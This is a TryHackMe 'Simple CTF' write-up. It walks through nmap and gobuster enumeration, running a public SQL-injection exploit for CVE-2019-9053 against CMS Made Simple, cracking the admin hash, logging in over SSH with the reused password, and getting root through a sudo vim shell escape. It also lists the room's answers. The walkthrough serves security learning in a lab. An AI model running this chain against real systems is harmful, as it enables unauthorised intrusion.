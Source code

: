 <p align="center">
  THM : Simple CTF<br>
  Difficulty : Easy<br>
  <img src="https://i.imgur.com/TdJUzQ4.png">
</p>

## Summary

- [Nmap scan](#nmap-scan)
- [Website enumeration](#website-enumeration)
- [SQL Injection](#sql-injection)
- [Get the user flag](#get-the-user-flag)
- [Privilege escalation](#privilege-escalation)
- [Conclusion](#conclusion)

## Nmap scan
```
┌──(attacker㉿AttackBox)-[~/Documents/TryHackMe/CTF/Simple_CTF]
└─$ nmap 10.10.48.140 -A -p- -oN nmapResults.txt
Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-01 16:41 CEST
Nmap scan report for 10.10.48.140
Host is up (0.031s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.8.95.171
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 2 disallowed entries 
|_/ /openemr-5_0_1_3 
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 29:42:69:14:9e:ca:d9:17:98:8c:27:72:3a:cd:a9:23 (RSA)
|   256 9b:d1:65:07:51:08:00:61:98:de:95:ed:3a:e3:81:1c (ECDSA)
|_  256 12:65:1b:61:cf:4d:e5:75:fe:f4:e8:d4:6e:10:2a:f6 (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 166.41 seconds
```

- We can login to the ftp service as ftp user on port 21.
- There is a website on port 80.
- The ssh service is running on port 2222.

**Question : How many services are running under port 1000 ?**  
**Answer : 2**  

**Question : What is running on the higher port ?**  
**Answer : ssh**

## Website enumeration

### Summary

- [Gobuster enumeration](#gobuster-enumeration)
- [Manual enumeration](#manual-enumeration)

### Gobuster enumeration

```
──(attacker㉿AttackBox)-[~/Documents/TryHackMe/CTF/Simple_CTF]
└─$ gobuster dir -u http://10.10.48.140/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.48.140/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/10/01 16:54:58 Starting gobuster in directory enumeration mode
===============================================================
/simple               (Status: 301) [Size: 313] [--> http://10.10.48.140/simple/]
/server-status        (Status: 403) [Size: 300]                                  
                                                                                 
===============================================================
2022/10/01 17:06:46 Finished
===============================================================
```

### Manual enumeration

If we go to the /simple directory found by [Gobuster](https://github.com/OJ/gobuster), we see that a CMS is installed on the server. 
It's `CMS Made Simple`.  
![](https://i.imgur.com/nZExa05.png)  

We can see the current installed version at the bottom of the page :  
![](https://i.imgur.com/j4PoLr8.png)  

If we search for it on [Exploit-DB](https://www.exploit-db.com/), we can see that the current installed version of 
CMS Made Simple is vulnerable to SQL Injections :  
![](https://i.imgur.com/hQ1ytbD.png)  

We can see the corresponding CVE :  
![](https://i.imgur.com/Hxa15eQ.png)  

**Question : What's the CVE you're using against the application ?**  
**Answer : CVE-2019-9053**

**Question : What kind of vulnerability is the application vulnerable ?**  
**Answer : sqli**  

## SQL Injection

Let's use the exploit found on [Exploit-DB](https://www.exploit-db.com/). The exploit will use a time based sql injection to retrieve informations 
about the admin account of the CMS. Let's see the available options of this exploit :  
```
Options:
  -h, --help            show this help message and exit
  -u URL, --url=URL     Base target uri (ex. http://10.10.10.100/cms)
  -w WORDLIST, --wordlist=WORDLIST
                        Wordlist for crack admin password
  -c, --crack           Crack password with wordlist
```

The exploit can also crack the password hash with a given wordlist. Let's try to crack it with rockyou.txt using  
`python2 46635.py -u http://10.10.48.140/simple/ -w /usr/share/wordlist/rockyou.txt -c` :  
```
[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
[+] Password cracked: secret
```

Now we have the admin credentials of the CMS. If we try to use the same credentials to login via SSH :  
```
┌──(attacker㉿AttackBox)-[~/Documents/TryHackMe/CTF/Simple_CTF]
└─$ ssh mitch@10.10.48.140 -p 2222
The authenticity of host '[10.10.48.140]:2222 ([10.10.48.140]:2222)' can't be established.
ED25519 key fingerprint is SHA256:iq4f0XcnA5nnPNAufEqOpvTbO8dOJPcHGgmeABEdQ5g.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[10.10.48.140]:2222' (ED25519) to the list of known hosts.
mitch@10.10.48.140's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-58-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 packages can be updated.
0 updates are security updates.

Last login: Mon Aug 19 18:13:41 2019 from 192.168.0.190
$ 
```

It works ! We have a shell on the machine now.  

**Question : What's the password ?**  
**Answer : secret**  

**Question : Where can you login with the details obtained ?**  
**Answer : ssh**  

## Get the user flag

The user.txt flag is located in `/home/mitch`.
```
$ ls
user.txt
$ cat user.txt
********, *****!
```

We have the user flag !

**Question : What's the user flag ?**  
**Answer : \*\*\*\*\*\*\*\*\*, \*\*\*\*\*\*!**  

## Privilege escalation

If we look in the /home directory, there is another user :  
```
$ cd ..
$ ls
mitch  sunbath
```

If we use `sudo -l`, we see that mitch can use vim as root without any password. Let's see on [GTFOBins](https://gtfobins.github.io/) how to elevate our privileges using vim :  
![](https://i.imgur.com/G28XSLj.png)

Let's use `sudo vim -c ':!/bin/bash'` :  
```
$ sudo vim -c ':!/bin/sh'

# whoami
root
```

And we are root ! We can now get the root flag. It is located in /root :  
```
# cd /root
# ls
root.txt
# cat root.txt  
**** ****. ***********!
```

**Question : Is there any other user in the home directory ? What's its name ?**  
**Answer : sunbath**  

**Question : What can you leverage to spawn a privileged shell ?**  
**Answer : vim**  

**Question : What's the root flag ?**  
**Answer : \*\*\*\* \*\*\*\*. \*\*\*\*\*\*\*\*\*\*!**

## Conclusion

I think this room is a good CTF to start with if you are a beginner. It's really well guided. Thanks for this room !
